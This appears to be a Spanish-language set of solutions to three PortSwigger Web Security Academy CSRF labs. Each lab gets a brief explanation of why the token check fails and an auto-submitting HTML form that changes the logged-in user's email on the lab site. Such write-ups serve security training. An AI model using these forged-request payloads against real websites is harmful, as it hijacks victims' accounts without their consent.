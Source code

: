 ### [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

#### Solución:

```html
<form method="POST" action="https://aced1f971f5a2e0d80c321bf00e30015.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="asd@mail.com">
<input type="hidden" name="csrf" value="OQJBSyA28bY0ntWPuDdNcDhU0xN4zavJ">
</form>
<script>
      document.forms[0].submit();
</script>
```

### [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

Al autenticarse y hacer click en Update Email con el interceptor de burp activado, si mandamos esta request al repeater e intentamos cambiar el csrf, vemos que bloquea la petición; en cambio, si cambiamos el método de la petición de POST  a GET, vemos que el csrf ya no es validado. Para resolver el laboatorio completamos lo siguiente con la url del laboratorio (en la request de burp se puede hacer click derecho y copy url), teniendo en cuenta que el método de la request que no valida el csrf es GET.

#### Solución:

```html
<form method="GET" action="https://ac521fc91fe8eb95801f0a93002a00ab.web-security-academy.net/email/change-email?email=algo%40mail.com&csrf=algo1234">
     <input type="hidden" name="email" value="algo@mail">
</form>
<script>
      document.forms[0].submit();
</script>
```

### [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

Al autenticarse y hacer click en Update Email con el interceptor de burp activado, si mandamos esta request al repeater e intentamos cambiar el csrf, vemos que bloquea la petición; en cambio, si borramos el parámetro csrf, vemos que la petición es aceptada. Para resolver el laboatorio completamos lo siguiente con la url del laboratorio (en la request de burp se puede hacer click derecho y copy url).

#### Solución:

```html
<form method="POST" action="https://ac131f991ed1683b801644a1003000bf.web-security-academy.net/email/change-email">
     <input type="hidden" name="email" value="algo@mail.com">
</form>
<script>
      document.forms[0].submit();
</script>
```
